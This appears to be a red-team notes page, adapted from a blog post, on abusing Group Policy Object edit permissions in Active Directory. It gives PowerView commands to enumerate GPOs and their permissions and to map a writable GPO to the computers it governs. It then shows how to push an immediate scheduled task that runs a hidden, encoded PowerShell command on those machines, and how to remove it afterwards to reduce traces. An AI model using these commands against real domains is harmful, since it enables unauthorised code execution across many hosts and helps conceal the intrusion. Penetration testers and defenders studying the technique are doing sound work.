


# Abusing GPO Permissions

### GPO Background

* [Group Policy Objects](https://technet.microsoft.com/en-us/windowsserver/bb310732.aspx) are Active Directory containers used to store groupings of policy settings. These objects are then linked to specific sites, domains, or most commonly specific organizational units (OUs).
* [_By default, computer Group Policy is updated in the background every 90 minutes, with a random offset of 0 to 30 minutes._](https://technet.microsoft.com/en-us/library/cc940895.aspx)
* &#x20;`PowerView`, the `Get-NetGPO` cmdlet allows for the easy enumeration of all current GPOs in a given domain.

### Enumerate GPOs

```
Get-NetGPO -ComputerName WINDOWS1.testlab.local
```

* The **gpcfilesyspath** field shows you where the configuration for the policy resides.&#x20;
* Let’s enumerate all the permissions for all GPOs in the current domain:

```
Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}
```

NOTE:  you can also use PowerView’s `Invoke-ACLScanner` to speed up your search. This will search the ACLs for ALL domain objects, and returns results where the `IdentityReference RID` is -1000 or above and also has some times of modification rights on the given object.

* Here’s what a misconfiguration might look like:

<figure><figcaption></figcaption></figure>

* And here’s how that misconfiguration looks through the Group Policy Management console:

<figure><figcaption></figcaption></figure>

* So the `TESTLAB\will` user has modification rights on the GPO with the GUID of `{3EE4BE4E-7397-4433-A9F1-3A5AE2F56EA2}` and display name of `SecurePolicy`. Let’s track this back and see what systems this GPO is applied to:

```
Get-NetOU -GUID "{3EE4BE4E-7397-4433-A9F1-3A5AE2F56EA2}" | %{Get-NetComputer -ADSpath $_}
```

* with edit rights to the GPO, we can force code execution on these machines!

### Weaponizing GPO Edit Rights

* My preference for immediate code execution would be to push out an [‘Immediate’ Scheduled task](https://technet.microsoft.com/en-us/library/dd851779.aspx), which instantly runs and then removes itself, every time group policy refreshes. <br>
* need to build a schtask .XML template to substitute in our appropriate configuration/commands and then copy it to \<GPO\_PATH>\Machine\Preferences\ScheduledTasks\ScheduledTasks.xml of the GPO we can edit.
* After waiting 1-2 hours for the group policy refresh cycle, we can remove the .xml to minimize our footprint.
* PowerView’s new [**New-GPOImmediateTask**](https://github.com/PowerShellMafia/PowerSploit/blob/26a0757612e5654b4f792b012ab8f10f95d391c9/Recon/PowerView.ps1#L5907-L6122) function should take care of all this for you. The **-TaskName** argument is required, **-Command** specified the command to run (which defaults to powershell.exe), and **-CommandArguments** specifies the arguments for the given binary.

```
New-GPOImmediateTask -TaskName Debugging -GPODisplayName SecurePolicy -CommandArguments '-NoP -NonI -W Hidden -Enc JABXAGMAPQBO...' -Force
```

### Remove the schtask

```
New-GPOImmediateTask -Remove -Force -GPODisplayName SecurePolicy
```

[https://blog.harmj0y.net/redteaming/abusing-gpo-permissions/](https://blog.harmj0y.net/redteaming/abusing-gpo-permissions/)&#x20;
